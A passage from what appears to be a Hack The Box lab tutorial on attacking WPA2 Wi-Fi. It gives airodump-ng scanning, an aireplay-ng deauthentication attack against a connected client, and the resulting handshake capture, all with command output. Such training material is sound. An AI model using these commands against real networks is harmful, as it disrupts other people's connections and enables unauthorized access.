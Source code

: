 Once our interface is in monitor mode, we can use `airodump-ng` to scan for available Wi-Fi networks and their associated clients. Additionally, we can use the option `-w WPA` to save the output of the scan into a file.

```shell
airodump-ng wlan0mon -c 1 -w WPA

21:58:02  Created capture file "WPA-01.cap".

 CH  1 ][ Elapsed: 48 s ][ 2024-08-29 21:58 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 80:2D:BF:FE:13:83  -47 100      471       10    0   1   54   WPA2 CCMP   PSK  HackTheBox

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 80:2D:BF:FE:13:83  8A:00:A9:9B:ED:1A  -29    1 - 5      0      656  EAPOL  HackTheBox

```

We can now execute a deauthentication attack on connected clients using `aireplay-ng`, forcing them to reconnect to the access point. This allows us to capture the 4-way handshake using airodump-ng.

```shell
aireplay-ng -0 5 -a 80:2D:BF:FE:13:83 -c 8A:00:A9:9B:ED:1A wlan0mon

21:58:33  Waiting for beacon frame (BSSID: 80:2D:BF:FE:13:83) on channel 1
21:58:33  Sending 64 directed DeAuth (code 7). STMAC: [8A:00:A9:9B:ED:1A] [ 0| 0 ACKs]
21:58:33  Sending 64 directed DeAuth (code 7). STMAC: [8A:00:A9:9B:ED:1A] [ 0| 0 ACKs]
21:58:34  Sending 64 directed DeAuth (code 7). STMAC: [8A:00:A9:9B:ED:1A] [ 0| 0 ACKs]
21:58:35  Sending 64 directed DeAuth (code 7). STMAC: [8A:00:A9:9B:ED:1A] [ 0| 0 ACKs]
21:58:35  Sending 64 directed DeAuth (code 7). STMAC: [8A:00:A9:9B:ED:1A] [ 0| 0 ACKs]

```

After a few seconds of performing the deauthentication attack, we should see the `WPA handshake` captured in our airodump-ng output.

```shell
airodump-ng wlan0mon -c 1 -w WPA

21:58:02  Created capture file "WPA-01.cap".

 CH  1 ][ Elapsed: 48 s ][ 2024-08-29 21:58 ][ WPA handshake: 80:2D:BF:FE:13:83

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 80:2D:BF:FE:13:83  -47 100      471       10    0   1   54   WPA2 CCMP   PSK  HackTheBox

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 80:2D:BF:FE:13:83  8A:00:A9:9B:ED:1A  -29    1 - 5      0      656  EAPOL  HackTheBox

```
